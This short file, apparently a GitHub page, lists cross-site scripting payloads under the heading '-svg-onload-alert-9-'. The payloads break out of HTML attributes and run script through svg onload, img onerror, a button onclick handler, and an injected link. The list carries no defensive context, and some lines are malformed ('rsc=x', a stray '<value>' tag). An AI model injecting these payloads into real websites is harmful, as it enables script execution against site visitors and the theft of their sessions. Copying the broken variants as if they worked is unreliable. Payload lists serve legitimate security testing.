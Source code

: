 # -svg-onload-alert-9-
">&lt;svg/onload=alert(9)>&lt;"
"><svg/onload=alert(9)><"
"><img rsc=x {onerror=prompt``}><"
"><img src=x onerror=alert(9)><"



'><input type="button"><value="alert" onclick="alert(9)"><"
"><a href="https://google/com">clickme</a>
